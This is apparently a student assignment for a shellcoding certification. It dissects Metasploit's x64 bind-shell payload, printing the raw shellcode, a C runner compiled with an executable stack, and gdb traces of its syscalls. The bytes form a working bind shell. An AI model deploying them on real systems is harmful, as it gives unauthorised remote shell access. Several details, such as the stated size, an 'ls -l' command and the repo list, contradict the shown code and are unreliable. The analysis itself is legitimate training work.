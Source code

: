 ## Assignment #5.1: Shellcode `linux/x64/shell_bind_tcp_random_port` Dissection
---
---
### Introduction
---
The first `msfvenom` shellcode that is going to be dissected in functionality is the `linux/x64/shell_bind_tcp_random_port` payload.

Let's see it's options:
```bash
SLAE64>  msfvenom -p linux/x64/shell_bind_tcp_random_port --list-options
Options for payload/linux/x64/shell_bind_tcp_random_port:
=========================


       Name: Linux Command Shell, Bind TCP Random Port Inline
     Module: payload/linux/x64/shell_bind_tcp_random_port
   Platform: Linux
       Arch: x64
Needs Admin: No
 Total size: 57
       Rank: Normal

Provided by:
    Geyslan G. Bem <geyslan@gmail.com>

Description:
  Listen for a connection in a random port and spawn a command shell. 
  Use nmap to discover the open port: 'nmap -sS target -p-'.
```

The payload is only 78 bytes and it requires the following parameters:
- `LPORT`: The port to listen for the incoming connection
- `RHOST`: The target address

> NOTE: In the captures of `gdb`, comments are especified with the `<==` symbol. This is added when want to comment what's going on in the debugger.

### Creating the Shellcode
---
Will execute the `ls -l` command. Decided to use a command that can receive options to check how the payload handles it. Also added the full path to make the command string a 7 bytes length only. Let's generate the payload:
```c
SLAE64> msfvenom -p linux/x64/shell_bind_tcp_random_port -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 57 bytes
Final size of c file: 264 bytes
unsigned char buf[] = 
"\x48\x31\xf6\x48\xf7\xe6\xff\xc6\x6a\x02\x5f\xb0\x29\x0f\x05"
"\x52\x5e\x50\x5f\xb0\x32\x0f\x05\xb0\x2b\x0f\x05\x57\x5e\x48"
"\x97\xff\xce\xb0\x21\x0f\x05\x75\xf8\x52\x48\xbf\x2f\x2f\x62"
"\x69\x6e\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x0f\x05";
SLAE64> 
```
The generated payload size, this time did not change in size.

### Run Shellcode. The C Template
---
To run the shellcode, will use of the `shellcode.c` template renamoed to `Payload_02.c`. The shellcode is placed in the `code[]` string:
```c
#include <stdio.h>
#include <string.h>

unsigned char code[]= \
"\x48\x31\xf6\x48\xf7\xe6\xff\xc6\x6a\x02\x5f\xb0\x29\x0f\x05"
"\x52\x5e\x50\x5f\xb0\x32\x0f\x05\xb0\x2b\x0f\x05\x57\x5e\x48"
"\x97\xff\xce\xb0\x21\x0f\x05\x75\xf8\x52\x48\xbf\x2f\x2f\x62"
"\x69\x6e\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x0f\x05";

void main()
{
        printf("ShellCode Lenght: %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```
Now it can be compiled:
```bash
gcc -fno-stack-protector -z execstack Payload_02.c -o Payload_02
```
When it's run, is listens for incoming connections in a random port. From another terminal using `netstat` check what's the listening port, and with `netcat`, can connect. A shell is spawned:

<img src="https://galminyana.github.io/img/A052_Shellcode_Run.png" width="75%" height="75%">

### `objdump`: First Approach
---
Once we get the executable, will use `objdump` to disassemble the ASM code. As `objdump` disassembles the code by sections, the one of interest is the `<code>` section. Is the one containing the payload shellcode:

```asm
SLAE64> objdump -M intel -D Payload_02
**_REMOVED_**
0000000000004060 <code>:
    4060:	48 31 f6             	xor    rsi,rsi
    4063:	48 f7 e6             	mul    rsi
    4066:	ff c6                	inc    esi
    4068:	6a 02                	push   0x2
    406a:	5f                   	pop    rdi
    406b:	b0 29                	mov    al,0x29
    406d:	0f 05                	syscall 
    406f:	52                   	push   rdx
    4070:	5e                   	pop    rsi
    4071:	50                   	push   rax
    4072:	5f                   	pop    rdi
    4073:	b0 32                	mov    al,0x32
    4075:	0f 05                	syscall 
    4077:	b0 2b                	mov    al,0x2b
    4079:	0f 05                	syscall 
    407b:	57                   	push   rdi
    407c:	5e                   	pop    rsi
    407d:	48 97                	xchg   rdi,rax
    407f:	ff ce                	dec    esi
    4081:	b0 21                	mov    al,0x21
    4083:	0f 05                	syscall 
    4085:	75 f8                	jne    407f <code+0x1f>
    4087:	52                   	push   rdx
    4088:	48 bf 2f 2f 62 69 6e 	movabs rdi,0x68732f6e69622f2f
    408f:	2f 73 68 
    4092:	57                   	push   rdi
    4093:	54                   	push   rsp
    4094:	5f                   	pop    rdi
    4095:	b0 3b                	mov    al,0x3b
    4097:	0f 05                	syscall 
	...
**_REMOVED_**
SLAE64> 
```
Per the disassembled code, a total of 5 syscalls been used. Let's see which ones are for the values of RAX before `syscall` instruction:
- `sys_socket` : Value 0x29
- `sys_listen` : Value 0x32
- `sys_accept` : Value 0x2b
- `sys_dup2`   : Value 0x21
- `sys_execve` : Value 0x3b

### The Fun: GDB Analysis
---
As how the shellcode is disasembled, the code can be divided in sections. This sections are defined by the different syscalls. To simplify the analysis, we going to debug section by section.

Let's load the exec file into `gdb`, setup the environment, and place a breakpoint in the code section with `b *&code`:

```asm
SLAE64> gdb ./Payload_02
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Reading symbols from ./Payload_02...(no debugging symbols found)...done.
(gdb) 
(gdb) set disassembly-flavor intel
(gdb) b *&code
Breakpoint 1 at 0x4060
(gdb) 
```
Now can start debugging, let's `run` the program and `disassemble` it:
```asm
(gdb) run
Starting program: /root/SLAE64/Exam/Assignment05/Payload_02 
ShellCode Lenght: 57

Breakpoint 1, 0x0000555555558060 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
=> 0x0000555555558060 <+0>:	xor    rsi,rsi
   0x0000555555558063 <+3>:	mul    rsi
   0x0000555555558066 <+6>:	inc    esi
   0x0000555555558068 <+8>:	push   0x2
   0x000055555555806a <+10>:	pop    rdi
   0x000055555555806b <+11>:	mov    al,0x29
   0x000055555555806d <+13>:	syscall 
   0x000055555555806f <+15>:	push   rdx
   0x0000555555558070 <+16>:	pop    rsi
   0x0000555555558071 <+17>:	push   rax
   0x0000555555558072 <+18>:	pop    rdi
   0x0000555555558073 <+19>:	mov    al,0x32
   0x0000555555558075 <+21>:	syscall 
   0x0000555555558077 <+23>:	mov    al,0x2b
   0x0000555555558079 <+25>:	syscall 
   0x000055555555807b <+27>:	push   rdi
   0x000055555555807c <+28>:	pop    rsi
   0x000055555555807d <+29>:	xchg   rdi,rax
   0x000055555555807f <+31>:	dec    esi
   0x0000555555558081 <+33>:	mov    al,0x21
   0x0000555555558083 <+35>:	syscall 
   0x0000555555558085 <+37>:	jne    0x55555555807f <code+31>
   0x0000555555558087 <+39>:	push   rdx
   0x0000555555558088 <+40>:	movabs rdi,0x68732f6e69622f2f
   0x0000555555558092 <+50>:	push   rdi
   0x0000555555558093 <+51>:	push   rsp
   0x0000555555558094 <+52>:	pop    rdi
   0x0000555555558095 <+53>:	mov    al,0x3b
   0x0000555555558097 <+55>:	syscall 
   0x0000555555558099 <+57>:	add    BYTE PTR [rax],al
End of assembler dump.
(gdb) 
```
All looks good, let's dissect the functionality.

#### Section 1: `sys_socket`

In this section, the `execve` call is to be used. From it's man page can get the function definition:
```c
int socket(int domain, int type, int protocol);
```
Then registers for this syscall need to get the following values:
- RAX gets the syscall number, 0x29
- RDI gets the domain. As it's an IPv4 connection, value has to be 2 (AF_INET)
- RSI gets the type of the connection. As it's a TCP oriented connection, value has to be 0x01 (SOCK_STREAM)
- RDX gets the protocol. As it's an IP connection, value has to be 0x00
Let's debug this part, reviewing that registers get this values before the syscall, and understanding what's done in the code:
```asm
(gdb) stepi
0x0000555555558063 in code ()
(gdb) stepi
0x0000555555558066 in code ()
(gdb) stepi
0x0000555555558068 in code ()
(gdb) stepi
0x000055555555806a in code ()
(gdb) stepi
0x000055555555806b in code ()
(gdb) stepi
0x000055555555806d in code ()
(gdb) disassemble 
Dump of assembler code for function code:
   0x0000555555558060 <+0>:	xor    rsi,rsi        <== ZEROes RSI
   0x0000555555558063 <+3>:	mul    rsi            <== RAX <- 0 and RDX <- 0
   0x0000555555558066 <+6>:	inc    esi            <== RSI <- 1 for SOCK_STREAM
   0x0000555555558068 <+8>:	push   0x2            <== RDI <- 2 for AF_INET
   0x000055555555806a <+10>:	pop    rdi
   0x000055555555806b <+11>:	mov    al,0x29        <== RAX <- 0x29 for syscall number
=> 0x000055555555806d <+13>:	syscall 
**_REMOVED_**
End of assembler dump.
(gdb) 
```
At this point, let's review that registers got the right values:
```asm
(gdb) info registers rax rdi rsi rdx
rax            0x29                41
rdi            0x2                 2
rsi            0x1                 1
rdx            0x0                 0
(gdb) 
```
Then the syscall can be run, as the parameters are correct. Remember that this syscall returns in RAX the socket descriptor.
```asm
(gdb) stepi
0x000055555555806f in code ()
```
#### Section 2: `sys_listen`
Here in this section the `listen` call. From the man page:
```c
int listen(int sockfd, int backlog);
```
Values for registers for this call have to be:
- RAX gets the syscall number, 0x32
- RDI gets the sock_descriptor
- RSI gets the backlog, 0x00
Let's understand the code here:
```asm
(gdb) stepi
0x0000555555558070 in code ()
(gdb) stepi
0x0000555555558071 in code ()
(gdb) stepi
0x0000555555558072 in code ()
(gdb) stepi
0x0000555555558073 in code ()
(gdb) stepi
0x0000555555558075 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**   
   0x000055555555806f <+15>:	push   rdx         <== Stack <- 0x00. RDX been zero'ed at +3
   0x0000555555558070 <+16>:	pop    rsi         <== RSI <- 0 for the parameter
   0x0000555555558071 <+17>:	push   rax         <== Pushes the socket descriptor in the stack
   0x0000555555558072 <+18>:	pop    rdi         <== RDI <- socket descriptor. Pop'ed from stack
   0x0000555555558073 <+19>:	mov    al,0x32     <== RAX <- Syscall number
=> 0x0000555555558075 <+21>:	syscall 
**_REMOVED_**
End of assembler dump.
(gdb) 
```
Everyting looks correct. Let's check if the registers have the right values before the syscall:
```asm
(gdb) info registers rax rdi rsi
rax            0x32                50
rdi            0x3                 3
rsi            0x0                 0
(gdb) 
```
Good. s expected.
#### Section 3: `sys_accept`
For the`accept` call, it's defined as:
```c
int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
```
Registers need this values:
- RAX for the syscall number, 0x2b
- RDI for the socket descriptor, that's already in RDI from the previous section (value "3")
- RSI a pointer to the sockaddr
- RDX the length of this struct












### GitHub Repo Files
---
The [GitHub Repo](https://github.com/galminyana/SLAE64/tree/main/Assignment05) for this assignment contains the following files:

- [Payload_01.c](https://github.com/galminyana/SLAE64/blob/main/Assignment05/Payload_01.c) : The C file cloned from `shellcode.c` to execute the `linux/x64/exec` shellcode.
- [Shellcode_01.txt](https://github.com/galminyana/SLAE64/blob/main/Assignment05/Shellcode_01.txt) : The rax shellcode in hex into a text file.

### The End
---
This pages have been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html).

Student ID: PA-14628
 

